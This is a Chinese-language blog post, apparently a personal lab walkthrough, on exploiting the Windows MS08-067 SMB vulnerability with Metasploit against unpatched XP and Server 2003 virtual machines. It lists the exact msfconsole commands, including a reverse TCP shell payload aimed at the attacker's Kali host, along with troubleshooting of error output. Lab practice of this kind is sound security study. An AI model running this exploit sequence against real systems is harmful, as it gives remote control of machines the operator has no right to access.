





本文着重还原漏洞渗透攻击过程。MS08-067是2008年底爆出的一个特大级漏洞，存在与当时几乎所有的Windows系统上。杀伤力之强，覆盖范围极广。
前言
我想说这个漏洞用的我很心累。
想说结论
MS08_067的第17次测试结束[√]。成功3次, 失败14次, 下载靶机12个, 历时3天半。
依据我个人看法，MS08-067漏洞非常鸡肋，成功率不高(极低)，它不仅容易弄系统崩溃，需要你的靶机系满足以下几个条件：
[1]未安装补丁
[2]需要正确的靶机
[3]靶机未开启防火墙
[4]一些未知的设置(如开启端口，设置注册表，开启Guest账户)等等
了解漏洞
MS08-067利用受害主机默认开放SMB服务端口445，发送特制的RPC请求到该端口，通过MSRPC接口调用Server服务的NetPathCanonicalize函数，并利用破坏程序栈缓冲区，获得远程执行代码权限，从而完全控制主机。
搭建靶机
靶机下载
这里我会给大家提供我测试成功的靶机，以便于大家进行测试。
Windows XP Home Edtion SP2 (English)
Windows Server 2003 Enterprise Edtion(English)
靶机配置
[1]确保启动VMware DHCP Service和VMware NAT Service这两个服务，否则靶机之间将无法建立起连接。

[2]Kali(LHOST)，Windows XP/Windows Server(RHOST)放在同一网段下，网络适配器选择NAT模式

[3]在你安装靶机完成时，你需要做的第一件事是保存一份原始快照(以免你在搞崩主机之前，给自己留条后路)
[4]保证测试靶机防火墙关闭
开始攻击
这里我们以WindowsXP系统为例。
启动Metasploit
你可以点击图标直接打开Metasploit，也可以在终端(Terminal)输入
1 | msfconsole |
搜索Exploit
搜索exploit时的格式都是，search [漏洞编号或者相关关键词]
1 | search ms08_067 |
使用Exploit
1 | use exploit/windows/smb/ms08_067_netapi |
显示Payload
1 | show payloads |
设定Payload
1 | set payload generic/shell_reverse_tcp |
配置Payload
1 | show options |
 这里显示``yes``的都是我们必需填写的。
这里显示``yes``的都是我们必需填写的。
查看Kali Linux的IP地址
1 | ifconfig |

查看Windows XP的IP地址
这里可千万别和上面的命令弄混淆。
1 | ipconfig |

填充配置
[Kali Linux]为LHOST，IP为192.168.88.135
[Windows XP]为RHOST，IP为192.168.88.134
1 | set LHOST 192.168.88.135 |

科普：LHOST(LOCAL HOST)是本地主机，RHOST(REMOTE HOST)是远程主机
开始攻击
首先Check一下，测试远程主机目标是否脆弱。
1 | exploit |

总结
常见报错
【1】靶机防火墙开启
1 | msf exploit(windows/smb/ms08_067_netapi) > check |

【2】不同系统版本漏洞利用入口不同
只有下面这一句的时候，详情参考：不同版本漏洞利用入口不同。
1 | [*] Exploit completed, but no session was created. |
Target选项不正确，这里大佬有提到过他的解决方案，建议自行判断靶机版本后再进行选择渗透。
【3】靶机本身的问题
[1]远程主机拒绝连接
下面出现这个问题，要么等几分钟再试，或者直接恢复快照试，如果还不行就直接换靶机。
1 | Exploit failed [unreachable]: Rex::ConnectionRefused The connection was refused by the remote host (192.168.88.135:445) |
[2]SMB服务问题
这是我在找关于WindowsXP SP1靶机出现以下问题时，找到的外文文档，里面建议我们在Options里Set SMBPIPE SRVSVC
1 | Exploit failed: Login Failed: The SMB server did not reply to our request |
[3]强烈建议更换合适的靶机
如果漏洞怎么样配置都不成功，强烈更换靶机，这样你就不会像我一样折腾三四天了ಥ_ಥ
个人总结
[1] 靶机尽量选择英文版本，可以避免很多问题的产生，提高利用成功率。
[2] 有些Payload不支持Check功能
[3] 往往在漏洞利用一次未成功后，再check一次都会显示失败。
[4] 不要想着试着去解决一些SMB报错，直接下载新的靶机然后舒舒服服地坐着喝咖啡。
本文参考
本文参考了国内外网上大部分文档，包括开头的了解漏洞是来自于《Metasploit渗透测试魔鬼训练营》里MS08-067这一章节的介绍。但因为几天过去，我很难找到当时看到的那些提供解决方案的链接。内容如有侵权，麻烦您在网站首页联系我，感谢。
这里还有其他大佬的文章你可以参考，以便于你在下载新的靶机时”尽情享受”。
[1] MS08-067 漏洞打击了盗版用户的信心
